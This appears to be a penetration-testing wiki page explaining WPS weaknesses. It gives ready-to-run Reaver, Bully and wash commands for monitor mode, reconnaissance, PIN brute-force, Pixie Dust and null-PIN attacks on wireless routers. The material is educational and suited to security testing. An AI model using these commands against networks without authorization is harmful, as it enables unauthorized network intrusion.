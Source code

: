 # WPS

## Theory

Wi-Fi Protected Setup (WPS) is a simplified configuration protocol designed to make connecting devices to a secure wireless network easier.
WPS employs an 8-digit PIN for user network connection, verifying the first 4 digits before proceeding to check the remaining 4. This allows for a potential Brute-Force attack on the first set of digits followed by the second set, with a total of only 11,000 possible combinations.

{% hint style="info" %}

Initially it's 20k possible combinations (10^8 =100.000.000 to 10^4+10^4=20.000) but as the 8th digit of the PIN is always a checksum of digit one to digit seven, there are at most (10^4 +10^3=11.000) attempts needed to find the correct PIN.

{% endhint %}

## Attacks

Here are some known attacks on Wi-Fi Protected Setup (WPS):

* **PIN Brute-Force:** Some routers with WPS allow users to connect by entering an 8-digit PIN code. A brute-force attack involves trying all possible combinations until the correct PIN is found.
* **Pixie Dust:** This attack exploits a weakness in the generation of WPS encryption keys. It involves exploiting vulnerabilities in certain routers during the creation of WPA/WPA2 encryption keys.
* **PIN Revelation:** Certain WPS-enabled routers may reveal information about the validity of the PIN during a connection attempt. This information disclosure can aid an attacker in narrowing down the search space during a brute-force attack.
* **Access Point Enumeration:** Some routers with WPS may be vulnerable to an attack that allows an attacker to determine which access points are present in a given area.

## Practice

There are three main methods for setting up a connection using WPS:

* **Push Button Configuration (PBC):** Press the WPS button on the router and then activate the WPS function on the device to connect. The two devices will automatically establish a connection.
* **PIN based Configuration:** Each WPS-enabled device has a unique PIN code. It can be entered on the router through its web interface, or vice versa, to establish the connection.
* **Near Field Communication Configuration:** In which the user has to bring the new client close to the access point to allow a near field communication between the devices. NFC Forum–compliant RFID tags can also be used.

### Monitor mode

The default configuration for wireless interfaces is "Managed" mode, restricting packet capture to those with a "Destination MAC" matching the interface's own MAC address.
To capture all packets within a wireless device's range, switch the mode to "Monitor."

If you have [Aircrack-ng](https://www.aircrack-ng.org/) (C) installed, you can run the following commands in your terminal:
```bash
# You may need to run these commands as root or a user with privileges
# /!\ Beware: change placeholder value $INTERFACE

airmon-ng #to list all your network interfaces.
arimon-ng check kill #to stop interfering network processes.
airmon-ng start "$INTERFACE" #to start your network interface in monitor mode.
```

If you are not using [Aircrack-ng](https://www.aircrack-ng.org/) (C), you can run the following commands in your terminal:
```bash
# You may need to run these commands as root or a user with privileges
# /!\ Beware: change placeholder value $INTERFACE

iwconfig #to view your wireless interfaces and check their current mode.
ifconfig "$INTERFACE" down #to disable the network interface you wish to change.
iwconfig "$INTERFACE" mode monitor #to change the mode of "$INTERFACE" to "monitor".
ifconfig "$INTERFACE" up #to re-enable your network interface.
```

### Recon

[Wash](https://github.com/t6x/reaver-wps-fork-t6x) (C) is a tool used to detect access points with WPS (Wi-Fi Protected Setup) enabled. It can perform a survey either directly from a live interface or by scanning a list of pcap files. As an auxiliary utility, Wash is a tool used to identify nearby WPS-enabled access points along with their main characteristics. It is included in the [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) package.
```bash
# /!\ Beware: change placeholder value $INTERFACE
wash -i "$INTERFACE"
```

### Brute-Force Attack

In December 2011, researcher [Stefan Viehböck](https://twitter.com/sviehb) identified a design and implementation flaw that renders PIN-based WPS vulnerable to brute-force attacks on WPS-enabled Wi-Fi networks. A successful exploitation of this flaw grants unauthorized individuals access to the network, and the sole effective solution is to disable WPS.

Today, two primary tools are available for executing this operation: [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) and [Bully](https://github.com/aanarchyy/bully) (C).
Reaver is crafted to be a robust and effective attack method targeting WPS. It has undergone testing against a diverse range of access points and WPS implementations. On the other hand, Bully represents a fresh implementation of the WPS brute force attack, coded in C. It offers several advantages over the original Reaver code, including fewer dependencies, enhanced memory and CPU performance, accurate handling of endianness, and a more resilient set of options.

```bash
# /!\ Beware: change placeholder values $INTERFACE, $BSSID, $CHANNEL
# Verbosity of output (for reaver): -v -vv -vvv
# Verbosity of output (for bully): -v 1 -v 2 -v 3
# Use 5GHz 802.11 channels: -5

# With reaver:
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -vv

# With bully:
bully "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -S -F -B -v 3
```

### Pixie Dust attack

During the summer of 2014, [Dominique Bongard](https://twitter.com/Reversity) identified a security vulnerability he named the Pixie Dust attack. This exploit specifically targets the default WPS implementation found in wireless chips produced by various manufacturers, including Ralink, MediaTek, Realtek, and Broadcom. The attack exploits a deficiency in randomization during the generation of the E-S1 and E-S2 "secret" nonces. With knowledge of these nonces, the PIN can be retrieved in a matter of minutes. To streamline the process, a tool called pixiewps was developed, and a new version of Reaver was created to automate the attack.

Check this [list](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y) to know which router model is vulnerable.

```bash
# /!\ Beware: change placeholder values $INTERFACE, $BSSID, $CHANNEL
# Verbosity of output (for reaver) : -v -vv -vvv
# Verbosity of output (for bully) : -v 1 -v 2 -v 3
# Use 5GHz 802.11 channels : -5

# With reaver:
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -K 1 -N -vv

# With bully:
bully  "$INTERFACE" -b "$BSSID" -d -v 3
```

### Null Pin attack

Certain poorly implemented systems permitted the use of a Null PIN for connections, which is highly unusual. Reaver has the capability to test for this, whereas Bully lacks this specific functionality.

```bash
# /!\ Beware: change placeholder values $INTERFACE, $BSSID, $CHANNEL
# Verbosity of output (for reaver): -v -vv -vvv

reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -f -N -g 1 -vv -p ''
```

## All-in-one tools

All the mentioned WPS attacks can be effortlessly executed using airgeddon or wifite2.

Airgeddon (Bash): https://github.com/v1s1t0r1sh3r3/airgeddon

Wifite2 (Python): https://github.com/derv82/wifite2

{% hint style="info" %}

Monitor mode can be activated automatically with tools such as airgeddon and wifite2.

{% endhint %}

## Resources

{% embed url="https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y" %}
